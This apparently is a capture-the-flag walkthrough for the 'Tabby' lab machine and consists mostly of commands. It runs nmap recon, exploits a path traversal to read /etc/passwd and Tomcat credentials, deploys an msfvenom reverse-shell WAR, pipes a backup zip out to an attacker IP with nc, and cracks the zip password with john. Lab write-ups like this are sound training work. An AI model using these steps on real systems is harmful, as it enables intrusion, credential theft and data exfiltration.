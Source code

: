 Tabby walkthrough
######################


We first run nmap. We get the following.

.. code-block:: console

    nmap -sC -sV -T4 -p- 10.10.10.194 | tee tabby.nmap 
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0) 
    | ssh-hostkey:  
    |   3072 453c341435562395d6834e26dec65bd9 (RSA) 
    |   256 89793a9c88b05cce4b79b102234b44a6 (ECDSA) 
    |_  256 1ee7b955dd258f7256e88e65d519b08d (ED25519) 
    80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu)) 
    |_http-title: Mega Hosting 
    |_http-server-header: Apache/2.4.41 (Ubuntu) 
    8080/tcp open  http    Apache Tomcat 
    |_http-title: Apache Tomcat 
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 

HTTP 8080
******************

We then checkout `http://10.10.10.194:8080/ ` and find some useful information.

	* It runs tomcat 9
	* http://10.10.10.194:8080/manager/html 
	* http://10.10.10.194:8080/host-manager/html 
	* Users are defined in /etc/tomcat9/tomcat-users.xml 

HTTP 80
***************

We find files and the hostname on `http://10.10.10.194`. There we can find `/etc/passwd`

.. code-block:: console

	http://megahosting.htb/news.php?file=../../../../etc/passwd 

We then find tomcat user's creds with curl

.. code-block:: console

	curl http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml 
	
	U = tomcat
	P = $3cureP4s5w0rd123! 

msfvenom -p java/shell_reverse_tcp lhost=10.10.14.5 lport=4444 -f war -o rev.10.10.14.5-4444.war 

curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/mynameis --upload-file rev.10.10.14.5-4444.war 

nc –lvnp 4444 

curl http://10.10.10.194:8080/mynameis 

cat 16162020_backup.zip | nc 10.10.14.5 443 

nc -lvnp 443 > 16162020_backup.zip 

zip2john 16162020_backup.zip > 16162020_backup.zip.john 

john 16162020_backup.zip.john --wordlist=/usr/share/wordlists/rockyou.txt 

admin@it  

Su – ash 

Admin@it 
